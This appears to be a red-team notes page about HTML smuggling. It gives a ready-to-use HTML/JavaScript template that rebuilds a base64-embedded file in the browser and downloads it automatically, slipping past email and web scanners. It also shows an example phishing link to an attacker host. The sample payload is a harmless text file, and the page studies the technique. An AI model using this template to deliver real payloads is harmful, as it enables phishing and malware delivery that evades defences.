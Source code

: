 ```yaml
---
description: 09/03/2025
---
```


# ✅ HTML Smuggling

## What is it?

HTML smuggling is a technique that uses JavaScript to hide files from content filters.&#x20;

If you send a phishing email with a download link, the `HTML` will probably look something like this:

```html
<a href="http://attacker.com/file.doc">Download Me</a>
```

### Security Implications

As a result, Email and web scanners are capable of parsing this data out and taking action upon it. They may be removed entirely, or the URL content fetched can be scanned by an AV sandbox.

### How to get Around This...

`HTML` smuggling allows us to get around this by embedding the payload into the `HTML` source code and using JavaScript to construct URLs by the browser at runtime.

### Boiler Plate Template

```html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```

#### How does it work?

As this goes "across the wire", a scanner (or other security solution) will only be capable of seeing the `HTML` and JavaScript. There are no hardcoded hyperlinks and the content type of the page itself is just `text/html`.

The encoded content in the `file` variable was created simply with:

```
ubuntu@DESKTOP-3BSK7NO ~> echo -en "This is a smuggled file" | base64
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

As you can see in the screenshot above, the `base64`-encoded string, `VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=`, can be decoded to `"This is a smuggled file"`. &#x20;

### What happens when you host this HTML on a page?

Upon a victim user visiting the page, the browser will automatically reconstruct and download the file without any user interaction from the user.

The quickest way we can test this and stand this up is by using `python3 -m http.server`.&#x20;

From there, we now have a simple, insecure `HTTP` server that we can use to host this file.

Upon visiting, we see that we can perform a drive-by download-like attack as `test.txt` is automatically downloaded.&#x20;

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**The output from the Python `HTTP` server:**

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### MOTW Warning

Files downloaded this way will still retain the MOTW and are also subject to the typical browser restrictions (e.g. warnings when trying to download `.EXE`'s).

```
PS C:\Users\bfarmer\Downloads> gc .\test.txt -Stream Zone.Identifier
[ZoneTransfer]
ZoneId=3
ReferrerUrl=http://nickelviper.com/smuggle.html
HostUrl=http://nickelviper.com/
```
